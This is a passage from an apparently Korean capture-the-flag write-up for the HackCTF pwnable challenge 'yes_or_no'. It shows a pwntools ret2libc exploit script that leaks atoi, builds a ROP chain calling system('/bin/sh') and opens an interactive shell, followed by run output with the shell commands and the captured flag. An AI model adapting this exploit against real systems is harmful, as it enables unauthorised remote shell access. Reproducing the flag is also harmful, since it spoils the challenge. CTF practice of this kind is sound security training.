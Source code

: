 ```python
atoi_address=u64(atoi_address+'\x00'*2)
libc_base=atoi_address-atoi_offset
system_address=libc_base+system_offset
binsh_address=libc_base+binsh_offset

log.info("atoi_address is "+str(hex(atoi_address)))
log.info("system_address is "+str(hex(system_address)))
log.info("binsh_address is "+str(hex(binsh_address)))

p.recvline()
p.sendline('9830400')

p.recvline()

payload2='A'*26
payload2+=p64(pop_rdi_ret)
payload2+=p64(binsh_address)
payload2+=p64(pop_rsi_pop_r15_ret)
payload2+=p64(0)
payload2+=p64(0)
payload2+=p64(system_address)

p.sendline(payload2)

p.interactive()
```
flag를 얻을 수 있었다.
```bash
    root@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/10.yes_or_no# python ex2.py
    [+] Opening connection to ctf.j0n9hyun.xyz on port 3009: Done
    [*] atoi_address is 0x7f548a065e80
    [*] system_address is 0x7f548a074390
    [*] binsh_address is 0x7f548a1bbd57
    [*] Switching to interactive mode
    That's cool. Follow me
    $ whoami
    attack
    $ cat flag
    HackCTF{4nd_4_P4ssing_necklace_in_h1s_h4nd}
```
**flag: HackCTF{4nd_4_P4ssing_necklace_in_h1s_h4nd}**
